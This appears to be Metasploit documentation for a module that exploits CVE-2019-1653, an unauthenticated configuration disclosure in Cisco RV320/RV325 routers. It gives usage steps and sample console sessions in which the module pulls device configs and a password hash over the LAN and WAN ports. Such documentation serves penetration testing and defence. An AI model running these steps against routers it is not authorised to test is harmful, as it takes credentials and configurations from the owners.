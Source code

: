 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.4.2.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.4.2.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 5. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
>```
 6. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN interface, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 203.0.113.54
RHOSTS => 203.0.113.54
msf5 auxiliary(gather/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19), on the LAN interface, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
203.0.113.54 70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
203.0.113.54 192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
203.0.113.54          cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_203.0.113.54_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
